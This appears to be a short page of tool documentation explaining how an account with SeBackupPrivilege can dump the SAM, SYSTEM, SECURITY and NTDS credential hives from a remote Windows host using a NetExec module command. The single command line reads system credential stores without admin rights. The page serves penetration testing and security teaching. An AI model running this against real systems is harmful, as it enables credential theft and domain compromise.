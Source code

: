 # Dump SAM, SYSTEM, SECURITY, NTDS with SeBackupPrivilege 

### Dump hashes using with BackupOperators 

{% hint style="warning" %}
You don't need to local admin privilege on the remote target if you are in SeBackupPrivilege
{% endhint %}

If the user controled has SeBackupPrivilege, It can dump SAM, SYSTEM, SECURITY, NTDS on the target system where it has the privs without local admin or domain admin privs.

```bash
nxc smb <ip> -u username -p password -M backup_operator
```

![image](https://github.com/user-attachments/assets/88d5aa2d-4369-4dac-815f-1dbe80b12ad6)
